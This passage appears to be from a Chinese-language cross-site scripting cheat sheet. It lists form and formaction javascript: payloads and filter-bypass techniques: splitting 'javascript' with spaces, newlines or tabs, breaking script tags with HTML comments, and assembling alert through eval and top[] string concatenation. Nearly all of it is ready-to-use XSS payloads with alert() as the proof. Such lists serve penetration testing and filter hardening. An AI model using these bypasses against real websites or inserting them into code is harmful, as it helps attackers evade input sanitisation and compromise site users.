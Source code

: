 form

```
<form action=javascript:alert(1)><input type=submit>
<form><button formaction=javascript:alert(1)>M
<form><input formaction=javascript:alert(1) type=submit value=M>
<form><input formaction=javascript:alert(1) type=image value=M>
<form><input formaction=javascript:alert(1) type=image src=1>
```

**空格绕过**

```html
示例：
<img src="javascript:alert('xss');">
替换：
<img src="java script:alert('xss');">
```

**回车绕过** (换行)

```html
示例：
<img src="javascript:alert('xss');">
替换：
<img src="java
script:
alert('xss');">
```

**Tab绕过**

```html
示例：
<img src="javascript:alert('xss');">
替换：
<img src="javasc	ript:alert('xss');">
```

**注释绕过**

```javascript
示例：
<script>alert()</script>
替换：
<scri<!--1-->pt>alert()</sc<!--1-->ript>
```

**字符拼接**

```html
利用eval：eval是Javascript内置函数，用于计算字符串表达式的值。
示例：
<img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">
利用top
示例：
<script>top["al"+"ert"](`xss`);</script>
```
